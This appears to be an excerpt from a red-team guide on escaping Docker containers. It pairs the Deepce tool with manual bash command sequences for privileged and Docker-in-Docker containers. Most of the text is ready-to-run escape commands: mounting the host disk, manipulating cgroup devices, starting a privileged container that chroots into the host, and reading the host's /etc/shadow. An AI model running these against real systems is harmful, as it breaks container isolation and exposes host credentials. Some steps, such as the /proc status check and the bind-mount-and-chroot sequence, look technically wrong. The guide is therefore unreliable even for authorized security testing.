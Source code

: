 ### Example: Privileged Container Exploitation

When Deepce identifies a privileged container:

```bash
# Utilize Deepce's automated exploitation
./deepce.sh --exploit privileged

# Manual exploitation
mkdir /tmp/escape
mount -t proc none /tmp/escape
mkdir /tmp/escape/1
mount -t cgroup -o devices cgroup /tmp/escape/1
echo "c 1:3 rwm" > /tmp/escape/1/devices.allow
mknod /tmp/escape/null c 1 3
chmod 777 /tmp/escape/null
ls -la /tmp/escape
```

### Example: Contained-in-Docker (CiD) Escape

When Deepce identifies a Docker-in-Docker setup:

```bash
# Check for DinD or CiD
./deepce.sh --find-vectors

# If DinD identified, exploit by creating privileged container
docker run --privileged -v /:/host alpine chroot /host /bin/bash
```

## Container Escape Techniques

Beyond automated tools, manual container escape techniques are valuable for red teams assessing container security. This section covers practical methods for escaping containers when specific misconfigurations are identified.

### Privileged Container Escapes

When a container runs in privileged mode, several escape vectors become available:

#### Mounting Host Filesystem

```bash
# Check if container is privileged
grep -i Privileged /proc/self/status

# Mount host filesystem
mkdir /tmp/host-fs
mount /dev/sda1 /tmp/host-fs

# Alternatively, mount entire host filesystem
mkdir /tmp/root
mount -t proc none /tmp/root
cd /tmp/root
mkdir m
mount -t tmpfs none m
cd m
mkdir o
mount -o bind / o
chroot o /bin/bash

# Access host files
cat /tmp/host-fs/etc/shadow
```
